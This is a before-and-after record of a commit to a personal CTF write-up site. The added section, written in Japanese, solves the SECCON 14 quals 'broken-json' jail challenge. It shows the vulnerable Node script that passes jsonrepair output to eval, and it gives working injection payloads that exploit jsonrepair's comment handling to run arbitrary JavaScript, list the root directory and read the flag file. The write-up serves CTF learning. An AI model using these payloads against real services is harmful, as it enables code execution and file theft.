

Before and after one commit to claustra01/my-ctf-writeups, a Jekyll site: the page built from _writeups/seccon_14_quals.md, in a window 1280 px wide and 1400 px high, scrolled down 12661 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 13291 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
update: seccon 14 quals

````diff
--- a/_writeups/seccon_14_quals.md
+++ b/_writeups/seccon_14_quals.md
@@ -551,3 +550,39 @@ app.run("0.0.0.0", 50000)
 
 このサーバーを自分でホストし、そのURLを報告すると`/flag`にflagが飛んできた。
 `SECCON{New_fe4tur3,n3w_bypa55}`
+
+
+# [Jail] broken-json
+jsonrepairというパッケージに通した入力をそのままevalしている。flagのファイル名は推測困難なので、RCEが必要。
+
+```js
+#!/usr/local/bin/node
+import readline from "node:readline/promises";
+import { jsonrepair } from "jsonrepair";
+
+using rl = readline.createInterface({ input: process.stdin, output: process.stderr });
+await rl.question("jail> ").then(jsonrepair).then(eval).then(console.log);
+```
+
+例えば、このようなjsonとjsのpolyglotを与えるとjsとして解釈される。
+```
+jail> [{"x":1}]
+[ { x: 1 } ]
+```
+
+[jsonrepairのソースコード](https://github.com/josdejong/jsonrepair/blob/main/src/regular/jsonrepair.ts)を読むと、コメント周りの処理が不十分なことが分かった。LLMと壁打ちしつつガチャガチャしていたら、このような入力を与えた時に`console.log`が発火した。これで任意のjsを実行できた。
+```
+$ nc localhost 5000
+jail> [/",(console.log(1337),"ok"),"/]
+1337
+[ '/', 'ok', '/' ]
+```
+
+あとはjsonrepairがエラーを吐かないようにパズルをしてRCEに持ち込めば良い。
+```
+[/",(console.log(process.getBuiltinModule("node:fs").readdirSync(String.fromCharCode(47))), "ok"),"/]
+[/",(()=>{const fs=process.getBuiltinModule("node:fs");const r=String.fromCharCode(47);console.log(fs.readFileSync(r+"flag-235a7a7283c92a9c1f9a1e521e0e70f3.txt","utf8"));return "ok";})(),"/]
+```
+
+flagが得られた。
+`SECCON{Re:Jail_kara_Hajimeru_Break_Time}`
````
Also changed, not shown: other parts of _writeups/seccon_14_quals.md (+2 -3 lines).
